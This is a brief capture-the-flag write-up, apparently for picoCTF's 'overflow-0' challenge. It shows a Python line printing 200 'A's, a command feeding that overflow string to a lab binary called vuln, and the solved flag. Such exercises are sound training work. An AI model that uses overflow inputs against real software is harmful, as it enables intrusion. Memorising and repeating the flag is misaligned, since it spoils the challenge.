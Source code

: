 ## Prep

```python
print("A"*200)
```

In the shell server:

```bash
cd /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa
./vuln AAAAAAAAAAAAAA...AAAAAAAAAAA
```

## Flag

picoCTF{3asY_P3a5yd2b59a57}
